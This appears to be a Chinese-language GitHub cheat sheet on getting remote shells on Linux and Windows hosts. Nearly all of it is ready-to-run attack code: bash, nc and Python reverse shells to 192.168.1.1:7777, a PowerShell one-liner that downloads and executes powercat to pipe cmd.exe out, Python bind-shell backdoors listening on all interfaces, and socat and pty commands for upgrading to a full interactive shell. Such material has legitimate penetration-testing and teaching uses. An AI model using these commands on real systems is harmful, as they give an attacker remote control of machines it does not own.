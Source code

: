 # 反弹/正向 Shell & 升级交互式Shell (Linux&Win)

## 0x01 反弹shell

### 1. Linux

等待反弹的shell会话主机：192.168.1.1:7777  

#nc -lvvp 7777

#### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
#### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
#### python 
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

### 2. Windows
#### powercat 
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
## 0x02 正向shell

### 1. python on windows
>监听在7777端口，可以通过nc连接
```python
from socket import *
import subprocess
import os, threading

def send(talk, proc):
        import time
        while True:
                msg = proc.stdout.readline()
                talk.send(msg)

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen('cmd.exe /K', stdin=subprocess.PIPE, 
                stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        t = threading.Thread(target = send, args = (talk, proc))
        t.setDaemon(True)
        t.start()
        while True:
                cmd=talk.recv(1024)
                proc.stdin.write(cmd)
                proc.stdin.flush()
        server.close()
```
### 2. python on linux
>监听在7777端口，可以通过nc连接
```python
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```

## 0x03 提升shell交互能力

### 1. Linux
#### python
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'

```
#### socat(反弹交互式shell)
本机监听(192.168.0.1):   
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
```
目标主机:   
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.1:8888   
```
如果没有安装socat。有独立的二进制文件可以从这个Github下载：https://github.com/andrew-d/static-binaries    

## Ref 
- [将简单的shell升级为完全交互式的TTY](https://www.4hou.com/posts/mQ7R)
- [python正向连接后门](https://www.leavesongs.com/PYTHON/python-shell-backdoor.html)
